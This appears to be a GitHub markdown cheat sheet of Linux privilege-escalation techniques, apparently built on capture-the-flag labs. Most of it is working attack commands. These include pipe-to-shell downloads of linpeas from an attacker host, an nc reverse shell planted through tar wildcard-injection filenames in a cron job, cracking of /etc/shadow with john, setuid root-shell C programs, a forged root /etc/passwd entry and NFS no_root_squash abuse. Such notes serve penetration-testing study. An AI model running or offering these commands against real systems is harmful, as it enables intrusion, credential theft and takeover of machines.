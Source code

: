 # Linux

## Methodology

- Scripts
    - LinEnum - [Link](https://github.com/rebootuser/LinEnum)
    - LinpPeas - [Link](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)

```console
# Local network
sudo python -m SimpleHTTPServer 80 #Host
curl 10.10.10.10/linpeas.sh | sh #Victim

# Without curl
sudo nc -q 5 -lvnp 80 < linpeas.sh #Host
cat < /dev/tcp/10.10.10.10/80 | sh #Victim

# Excute from memory and send output back to the host
nc -lvnp 9002 | tee linpeas.out #Host
curl 10.10.14.20:8000/linpeas.sh | sh | nc 10.10.14.20 9002 #Victim
```

- sudo -l

Take a look at the variables like **LD_PRELOAD**
Take a look which commands you can run as sudo

```console
$ sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl   
```



## Unshadow Passwd & Shadow

You need to download 2 files. /etc/passwd & /etc/shadow

```console
$ unshadow <passwd> <shadow> > hashes.txt
```

Then crack it with john

```console
$ john --wordlist=/usr/share/wordlists/rockyou.txt --format=sha512crypt new.txt 
Using default input encoding: UTF-8
Loaded 3 password hashes with 3 different salts (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Press 'q' or Ctrl-C to abort, almost any other key for status
Password1        (karen)
Password1        (user2)
test123          (gerryconway)
3g 0:00:00:13 DONE (2022-02-19 19:18) 0.2155g/s 1268p/s 1783c/s 1783C/s 111292..ellie123
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

## Cron

read cron jobs with `/etc/crontab`

For example, tar, 7z, rsync, etc., can be exploited using their wildcard feature

Be sure the file has `chmod +x`

### tar

```console
cat backup.sh
#!/bin/bash
cd /var/www/html
tar cf /home/milesdyson/backups/backup.tgz *
```

Exploit:
```console
$ echo "mkfifo /tmp/ahikccu; nc 10.14.20.70 4444 0</tmp/ahikccu | /bin/sh >/tmp/ahikccu 2>&1; rm /tmp/ahikccu" > shell.sh
$ chmod 777 shell.sh
$ echo "" > "--checkpoint-action=exec=sh shell.sh"
$ echo "" > --checkpoint=1
```

start nc listener

```console
$ sudo /opt/backups/backup.sh
```

## Environment var

Show PATH var
```console
echo $PATH
```

Add direcotry to PATH var
```console
export PATH=/tmp:$PATH
```

Find writeble folders
```console
$ find / -writable 2>/dev/null |cut -d "/" -f 2 | sort -u
```

```console
#!/bin/bash
/bin/bash
```
Set chmod 777

```c
#Spawn Bash C
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
int main (void) {
        setuid(0);
        setgid(0);
        system("/bin/bash -p");
        return 0;
}
```
set chmod x+s

## SUID

Compare executables with [GTFOBins](https://gtfobins.github.io/)

Find SUID files:

```console
$ find / -perm -u=s -type f 2>/dev/null
```

## Writeble files

**/etc/passwd**

Format: `test:x:0:0:root:/root:/bin/bash`

1. Username: It is used when user logs in. It should be between 1 and 32 characters in length.
2. Password: An x character indicates that encrypted password is stored in /etc/shadow file. Please note that you need to use the passwd command to compute the hash of a password typed at the CLI or to store/update the hash of the password in /etc/shadow file, in this case, the password hash is stored as an "x".

3. User ID (UID): Each user must be assigned a user ID (UID). UID 0 (zero) is reserved for root and UIDs 1-99 are reserved for other predefined accounts. Further UID 100-999 are reserved by system for administrative and system accounts/groups.
4. Group ID (GID): The primary group ID (stored in /etc/group file)
5. User ID Info: The comment field. It allow you to add extra information about the users such as user’s full name, phone number etc. This field use by finger command.
6. Home directory: The absolute path to the directory the user will be in when they log in. If this directory does not exists then users directory becomes /
7. Command/shell: The absolute path of a command or shell (/bin/bash). Typically, this is a shell. Please note that it does not have to be a shell.

```console
New entry
$ new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash
```

## Capabilities

Find capabilities:

```console
$ getcap -r / 2>/dev/null
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/ping = cap_net_raw+ep
/home/karen/vim = cap_setuid+ep
/home/ubuntu/view = cap_setuid+ep
```

Look at [GTFOBins](https://gtfobins.github.io/) for leverage

## NFS

Check /etc/exports for "no_root_squash":
```console
# /etc/exports: the access control list for filesystems which may be exported
#               to NFS clients.  See exports(5).
#
# Example for NFSv2 and NFSv3:
# /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
#
# Example for NFSv4:
# /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
# /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)
#
/home/backup *(rw,sync,insecure,no_root_squash,no_subtree_check)
/tmp *(rw,sync,insecure,no_root_squash,no_subtree_check)
/home/ubuntu/sharedfolder *(rw,sync,insecure,no_root_squash,no_subtree_check)
```

Look for mountable shares:
```console
$ showmount -e 10.10.193.66
Export list for 10.10.193.66:
/home/ubuntu/sharedfolder *
/tmp                      *
/home/backup              *
```

Mount one shared dir with "no_root_squash":
```console
$ mkdir /tmp/shared
$ sudo mount -o rw 10.10.193.66:/home/backup /tmp/shared/
```

Create file inside shared:
```c
int main(){
        setgid(0);
        setuid(0);
        system("/bin/bash");
        return 0;
}
```
Compile the code:
```console
$ gcc root.c -o nfs -w

#ls -la
total 28
drw-r--r-- 2 root root  4096 20. Feb 12:26 .
drwxrwxrwt 1 root root   822 20. Feb 12:26 ..
-rwxr-xr-x 1 root root 16712 20. Feb 12:26 nfs
-rw-r--r-- 1 root root    71 20. Feb 12:26 root.c

$ chmod +s root
$ ls -la
total 28
drwxr-xr-x 2 root root  4096 20. Feb 12:35 .
drwxrwxrwt 1 root root   834 20. Feb 12:35 ..
-rwsr-sr-x 1 root root 16712 20. Feb 12:35 root
-rw-r--r-- 1 root root    99 20. Feb 12:33 root.c
```

